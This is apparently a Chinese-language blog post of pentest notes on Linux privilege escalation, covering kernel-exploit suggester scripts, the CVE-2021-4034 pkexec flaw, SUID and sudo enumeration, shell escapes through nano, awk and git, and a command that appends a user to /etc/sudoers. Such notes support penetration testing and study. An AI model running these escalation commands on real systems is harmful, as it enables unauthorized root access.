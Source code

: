 ```yaml
---
layout: article
title: Privilege Escalation in Linux
mathjax: true
key: a00033
cover: /bkgs/3.jpg
modify_date: 2022-2-21
show_author_profile: true
excerpt_type: html
tag: 
- Pentest
- Linux
mode: immersive
header:
  theme: dark
article_header:
  type: overlay
  theme: dark
  background_color: '#203028'
  background_image:
    gradient: 'linear-gradient(135deg, rgba(34, 139, 87 , .4), rgba(139, 34, 139, .4))'
    src: /docs/assets/images/cover3.jpg
---
```


整理了一些Linux提权的内容

<!--more-->

# 内核提权

```
uanme -a
lsb_release -a
```

~~一般直接内核梭哈~~，内核漏洞探测脚本,对应exp可以编译好了再传上去执行

| 一步到位         | wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh  <br />源地址：https://github.com/carlospolop/PEASS-ng |
| ---------------- | ------------------------------------------------------------ |
| 不用root枚举进程 | https://github.com/DominicBreuker/pspy                       |

## CVE-2021-4034 Polkit Pkexec

https://github.com/berdav/CVE-2021-4034

不受影响版本：

CentOS：polkit-0.115

Ubuntu：policykit-1- 0.105

这个比较严重且新就单独放一列。

一句话介绍就是越界读写漏洞，重新引入不安全的环境变量，进而构造利用链获取root权限

引入不安全的环境变量GCONV_PATH，随便构造个错误，使其报错时调用到 g_printer，触发漏洞利用，最终执行pwnkit.so里的execve("/bin/sh", args, environ)得到shell

# 权限机制

https://gtfobins.github.io/#    找命令或者其他blabla能不能提权，比如git等等。

## suid提权

一种权限机制，当程序运行的时候就会暂时获取文件所有者的权限

```
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 2>/dev/null
```

上面这两个结果差不多

```
find / -perm -g=s -type f 2>/dev/null
```

比如

```shell
#nano
sudo -u user /bin/nano
CRTL+R CRTL+X
reset; sh 1>&0 2>&0
```

## sudo

```
sudo -l 
```

看能不能操作一下，比如：

```shell
#awk
sudo awk ‘BEGIN {system(“/bin/bash”)}’
#teehee
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee -a /etc/sudoers
#git
sudo git help config
!/bin/bash 
```

# 进程

1.一些以高权限执行的计划任务，想办法让其执行命令

2.一些有依赖的代码，改依赖内容（比如库等）

3.netstat –ano本机中现有服务是否可以提权

# 文件操作相关的

这些感觉不太容易出现

/etc/passwd 写入

/etc/shadow 爆破

/etc/crontab 弹shell

/var/spool/cron/  里面有每个用户的内容

/etc/sudoers

- 软链接

ln -s 源文件 目标文件

比如把某个命令换成/bin/bash
